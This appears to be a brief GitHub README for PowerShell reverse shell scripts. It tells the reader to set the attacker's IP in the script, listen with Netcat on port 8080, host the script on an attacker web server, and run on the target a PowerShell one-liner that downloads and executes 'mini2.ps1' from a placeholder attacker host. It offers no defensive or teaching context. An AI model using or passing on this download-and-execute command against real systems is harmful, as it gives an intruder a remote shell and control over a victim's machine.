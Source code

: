 # Powershell based Reverse Shell

These powershell based scripts are Reverse shell scripts.

Just change the text "SERVER_IP" with your machine IP (the one, on which Netcat is Listening on port 8080)

Upload the script to attacker server using web server.

<b>Run script on target server</b>

##########################


      powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://attacker_machine/mini2.ps1')"

./thanks
